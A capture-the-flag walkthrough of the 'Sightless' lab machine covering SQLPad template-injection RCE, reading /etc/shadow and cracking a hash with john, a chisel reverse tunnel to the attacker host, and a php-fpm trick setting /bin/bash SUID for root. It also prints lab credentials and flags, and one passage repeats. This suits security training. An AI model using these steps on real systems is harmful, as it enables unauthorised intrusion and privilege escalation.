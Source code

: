 ```yaml
---
sticker: lucide//eye-off
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | FTP     |
| 22   | SSH     |
| 80   |         |

Let's start with reconnaissance.

# RECONNAISSANCE
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107170937.png)

`echo "10.10.11.32 sightless.htb" | sudo tee -a /etc/hosts 2>/dev/null`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107171213.png)

Now we can access the website, we have a `home`, `about`, `services` and a `contact us` part, if we go to the service part, we can see the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107171349.png)

We got a `sqlpad` service, if we click start now, we are redirected to `sqlpad.sightless.htb`, let's add this subdomain to `/etc/hosts` too:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107171612.png)

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107172243.png)

Let's check the web and see if there's anything related to this version:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107182931.png)


# EXPLOITATION
---

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107172243.png)

Let's check the web and see if there's anything related to this version:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107182931.png)

Let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize the shell]], we would think that we already beat the machine since we got root access but no, we are inside of a docker container, we need some sort of way to get into the real machine, that's when we find 2 users, Michael and node:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107183525.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107183536.png)


Since we already have root access in the docker container, let's read `/etc/shadow` and get the hash for michael user:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107183633.png)

```ad-note
Michael hash is: 

`$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/`

----
We need to crack this hash using john, let's do it:

`john hash -w=/usr/share/wordlist/rockyou.txt`

----
This will output: `insaneclownposse`


Let's log into ssh using those credentials:


`michael`:`insaneclownposse`
```



![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107184751.png)

Now we are inside of michael's account, we can read the user flag now:

```ad-note
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107184841.png)
user flag: `fa24b7668682e82a648c821ccf0d9526`
```

# Privilege escalation
---

Let's proceed with privesc.

We'll be using linpeas to show use some possible PE vectors:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107185646.png)

There is a weird connection made to the port `8080`, we need to investigate this, for this, we will use chisel as we need to resend the traffic back to our local machine:

```ad-hint

##### Doing a reverse proxy
---
1. `chisel server -p 9999 --reverse`
2. `chmod +x chisel`
3. `./chisel client 10.10.15.36:9999 R:8080:127.0.0.1:8080`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107192250.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107192300.png)

```

Now, let's visit the page:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107192343.png)

It's executing froxlor, in order to get the credentials, we'll be using the following exploit: [exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/), this is basically a chrome remote debugger pentest, since the machine is running chrome actively, we can use this to exploit and access the credentials, once we've reproduce all the steps accordingly to the notes, we get the following credentials:

```ad-note

`admin`:`ForlorfroxAdmin`

```


Let's log into the panel:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107193550.png)

We got access to the panel, as seen, we have a php section, this has the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107193639.png)

We got `php-fpm`, we are able to execute php code, we can do the following:

```ad-note
1. Create new PHP version
2. `chmod 4777 /bin/bash`
3. Go to `/system/settings/php-fpm`, disable it and enable it again
4. Go to our terminal and perform `/bin/bash -p`
5. Get root shell
```


```ad-important
If we did all correctly, we are able to get root access:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107194238.png)

This is the root flag:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107194255.png)

Root: `1c4c6860beaa42a5b9b8e404fbcbf656`


```
